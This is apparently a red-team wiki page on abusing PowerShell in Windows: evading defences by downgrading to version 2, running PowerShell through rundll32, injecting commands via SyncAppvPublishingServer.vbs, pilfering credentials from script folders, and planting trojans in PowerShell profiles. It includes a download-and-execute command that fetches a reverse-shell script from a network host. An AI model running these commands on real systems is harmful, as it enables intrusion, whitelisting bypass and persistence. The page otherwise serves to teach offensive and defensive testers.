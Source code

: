 # ⭕ Leveraging Powershell

## <mark style="color:red;">Powershell</mark>

Powershell is a console replacement for windows cmd.exe that takes advantage of the .Net framework and COM objects and has a lot of bash-like features built into it.

Powershell has many interfaces such as the shell interface, script development GUI interface (ISE) and most importantly `System.Management.Automation.dll` which is the main DLL for loading powershell sessions.

#### powershell version 2.0 is common in windows 7 and server 2008 and downgrading from powershell 3 or 5 (latest version) to this one is great way of defense evasion.

## <mark style="color:red;">AMSI Bypass</mark>

#### Check [this section](amsi-bypass.md).

## <mark style="color:red;">Powershell without powershell.exe</mark>

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

```
rundll32.exe PowerShdll.dll,main
```

### <mark style="color:orange;">SyncAppvPublishingServer</mark>

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

example:

#### <mark style="color:green;">getting a reverse shell with SyncAppvPublishingServer and powershell.</mark>

generate a powershell payload and serve it on the network, use this command to call powershell from vba and load the payload in memory.

```
SyncAppvPublishingServer.vbs "Break; iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/rev.ps1')"
```

{% hint style="info" %}
#### This technique can easily bypass application whitelisting.
{% endhint %}



{% embed url="https://youtu.be/7tvfb9poTKg" %}

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://github.com/mirsys/PSAttack" %}

### <mark style="color:orange;">BYOPS</mark>

#### Bring your own powershell, any application that can use the .Net DLL to execute powershell commands.

{% embed url="https://github.com/leechristensen/UnmanagedPowerShell" %}

{% embed url="https://github.com/bitsadmin/nopowershell" %}

## <mark style="color:red;">Powershell Command Order</mark>

#### when a powershell command is executed, windows will look for the command in this order:

* Doskeys Alias (pre-windows 10 PSConsoleHostReadline)
* Alias
* Function
* Cmdlet
  * overloaded cmdlet checks object type
* Executable
  * tries each $PATHEXT for each directory in $PATH

## <mark style="color:red;">Attacking Resources</mark>

Pilfer embedded credentials in scripts:

```
C:\scripts
$HOME\Documents\WindowsPowerShell
C:\users\username\Documents\WindowsPowerShell\
$PSHOME\
c:\windows\system32\WindowsPowerShell\v1.0\
```

## <mark style="color:red;">Powershell Autoruns</mark>

The PowerShell console and ISE have different defaults for a profile. The profile is loaded every time PowerShell starts. This can be specific to the Host, User, Console, ISE, or a combination thereof. The filename of the current profile is always stored at $PROFILE. Any statements, including legacy commands or cmdlets in this file, will be executed upon start of PowerShell. You may want to adjust your profile to load certain modules or preset some environment variables.&#x20;

#### Because these files are automatically loaded when starting PowerShell, they are great locations to drop trojan payloads!

Profile running locations and context:

| Description          | Tool    | Path                                                                    |
| -------------------- | ------- | ----------------------------------------------------------------------- |
| Current User +Host   | Console | $Home\Documents\WindowsPowerShell\Profile.ps1                           |
| Current User         | Console | $Home\Documents\Profile.ps1                                             |
| Current Host         | Console | $PsHome\Microsoft.PowerShell\_profile.ps1                               |
| All Users, All Hosts | Console | $PsHome\Profile.ps1                                                     |
| Current User + Host  | ISE     | $Home\Documents\WindowsPowerShell\Microsoft.Power ShellISE\_profile.ps1 |
| Current Host         | ISE     | $PsHome\Microsoft.PowerShellISE\_profile.ps1                            |

## <mark style="color:red;">Persistent Modules</mark>





































